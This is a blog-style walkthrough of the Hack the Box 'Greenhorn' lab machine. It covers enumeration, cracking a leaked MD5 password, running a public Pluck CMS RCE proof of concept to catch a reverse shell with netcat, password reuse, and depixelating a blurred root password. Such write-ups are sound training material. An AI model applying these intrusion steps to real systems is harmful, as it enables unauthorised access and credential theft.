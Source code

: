 ```yaml
---
draft: false
title: "Hack the Box #6 - Greenhorn w/o Metasploit"
date: 2024-10-07
author: William
category:
  - Tech
tags:
  - Security
  - Hacking
  - Linux
description: Detailed Hack the Box Greenhorn write-up where I share the full process of enumeration, exploitation, and privilege escalation. From cracking MD5 hashes to leveraging a PoC for a reverse shell, and even using a de-pixelling tool for root access, this guide takes you through the challenges and solutions of this HTB box. Perfect for CTF enthusiasts looking for in-depth insights and a step-by-step breakdown of exploiting Greenhorn!
cover:
  image: GreenHorn.png
  alt: GreenHorn.png
---
```


I would be lying if I said I posted this Hack the Box Greenhorn writeup within the same week of me exploiting it. In truth life happened. I did a SANs and a couple of late nights out. But here it is, my greenhorn writeup. 

## Enumeration
Lets start as we always do after booting up the box and have a look at what ports are available to us with an nmap.
```bash
└─$ nmap -sV -p- 10.10.11.25 -oN nmap.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 22:55 BST
Nmap scan report for 10.10.11.25
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=9/19%Time=66EC9DF4%P=x86_64-pc-linux-gnu%r
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.25 seconds
```

Port 22 and 80 are pretty standard. SSH and a basic webserver. But what is this port 3000 you might ask?  Hitting port 3000 from the browser we are greeted with...
![Gitea](https://about.gitea.com/gitea-text.svg)
Gitea is a self-hosted GitHub which I have considered hosting myself from time to time. 
In poking around we find a repository on Gitea for a software called pluck. They were even kind enough to in include the version 4.7.18

Going to google and using my extensive searching knowledge by typing "pluck 4.7.18 Exploit poc Github" and we find this lovely [repo](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

Cool beans so we have an exploit but when looking at the exploit we need to authenticate for that.

Rummaging through the repo some more we find that MD5 hash is used to encrypt passwords, this is a very secure choice if you want to get pwned! These guys know what they are doing!!! And with a little bit more rummaging we find under the settings folder there is a file called pass.php with a suspiciously MD5 looking hash

Taking that badboy and throwing it into [crackstation.net](https://crackstation.net/), we have a match!!! `iloveyou1` awww i love you to greenhorn. Now that we have everything we need lets have a look at this pluck webserver running on port 80.

Navigating to the login page we only need to put in a password. Great with a quick `iloveyou1` we are logged in! Now we can leverage the sweet sweet remote code execution PoC we found earlier.

## Exploitation
Lets take a closer look at the script we have. It requires the following details to execute correctly

```bash
login_url = "http://<hostname>/login.php"
upload_url = "http://<hostname>/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "<password>","<username>": "","submit": "Log in"}
```

`Hostname` and `password` we already have. For the `username` we can inspect the login payload, either through developer tools or burp (Yes we are running everything though our burp proxy).
We get the user `bogus`

Customizing the payload inline with this information we prepare out netcat to listen for the call home. And after executing the script we get catch a reverse shell.

```bash
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.25] 44696
SOCKET: Shell has connected! PID: 84927
whoami
www-data
```

Boom. Looks like we are running the the www-data context but its something. Looking around the box we find two users `git` and `junior` git we get permission denied but junior!!!

```bash
ls /home/junior
Using OpenVAS.pdf
archivo.pdf
linpeas.sh
user.txt
```

Boys rocking linpeas like a pro! Saddly for user.txt we get permission denied. CAN YOU blame me... It was worth the try. We need to achieve persistence. SSH to the box fails, with junior being locked down with a public key.

Nothing much else of interest after poking around for a bit longer. I got to the point of insanity where I was trying to extract the .pdf files by writing my own custom HTTP server that would accept POST requests it dawned on me. What if...

```bash
su junior
Password: iloveyou1
whoami
junior

cat user.txt
============ USER_FLAG ============ 

```

![table_flip](https://i.giphy.com/sIE0hveuiwCNG.webp#center)
## Privilege Escalation 

After taking a break to sooth my stupidity, I come back to my computer ready for round 2. We can now look at the PDF files by hosting an http server on the box and pull the files to our kali box

```bash
python3 -m http.server

-------
└─$ wget <http://10.10.11.25:8080/Using\\> OpenVAS.pdf
```

Opening it we get this lovely document. I literally muttered you little bitch when I saw it.
![image.png](https://i.imgur.com/DqVqGGd.png)

WHO THE FUCK SCRAMBLES THIER PASSWORDS LIKE THIS! WHO IN THIER RIGHT MIND WILL DO THIS!!! 
It looks like some sort of image scrambling has taken place that we need to unscrable. After looking around we find this lovely repo that can help us out.

[https://github.com/spipm/Depix](https://github.com/spipm/Depix)

this will unpixulate the file

```bash
└─$ python depix.py -p ../pix.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 

```
Go from this
![image.png](https://i.imgur.com/sQ4XjKl.png)

 to this
![image.png](https://i.imgur.com/vAruc7U.png)

Now we follow the guide and use this for root access

```bash
└─$ ssh root@10.10.11.25  
root@10.10.11.25 password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

...

Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~#

root@greenhorn:~# cat root.txt 
============ROOT_FLAG============
```


And  like that we have root. YAY! 
To be honest not my favourite HTB CTF I have done. Getting a foot hold was fun, but the unscrambling of the password though cool just annoyed me. But anyway I'm going to go touch grass and oh here is the [proof of my accomplishment](https://www.hackthebox.com/achievement/machine/1695260/617). 

![Grass](https://i.giphy.com/phFw0JVlNfXCE.webp#center)